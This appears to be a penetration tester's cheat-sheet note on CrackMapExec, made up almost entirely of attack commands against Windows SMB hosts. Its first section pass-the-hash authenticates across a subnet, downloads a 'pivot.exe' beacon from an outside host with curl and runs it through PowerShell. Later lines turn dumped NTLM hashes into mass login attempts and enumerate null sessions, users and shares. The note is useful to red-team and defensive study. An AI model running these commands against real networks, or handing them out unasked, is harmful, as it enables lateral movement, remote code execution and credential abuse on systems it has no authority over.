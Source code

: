# Crackmapexec

## Deploy custom beacon
crackmapexec smb 172.29.138.0/24 -u Administrator -H <hash> -x "curl -o C:\Windows\Temp\pivot.exe http://172.29.137.67:8081/pivot.exe"
crackmapexec smb 172.29.138.0/24 -u Administrator -H <hash> -x "powershell.exe Invoke-Command -ScriptBlock {C:\Windows\Temp\pivot.exe}"

## Test multipe credentials
```sh
#Pattern: (.*):(.*):(.*):(.*):::
#Replacement: crackmapexec smb 172.29.139.180 -u $1 -H $4 -x whoami
crackmapexec smb 172.29.139.180 -u <USER> -H <NTLM> -x whoami
```

## [[Guest Access (SMB)]]
Enumerate null sessions
>cme smb <ip> -u '' -p ''  

Enumerate Anonymous access
>cme smb <ip> -u 'a' -p ''

## [[SMB Signing]]
Checking for SMB signing

## [[User enum]]
>cme smb <ip> -u <user> -p '<password>' --users

## [[Shares]]
* Enumerate smb hosts  
>cme smb <ip_range>

```meta
phases: 07,08
requirements: 
results: 
category: 
opsec: 
oss: #linux
source: https://github.com/byt3bl33d3r/CrackMapExec
description: 
```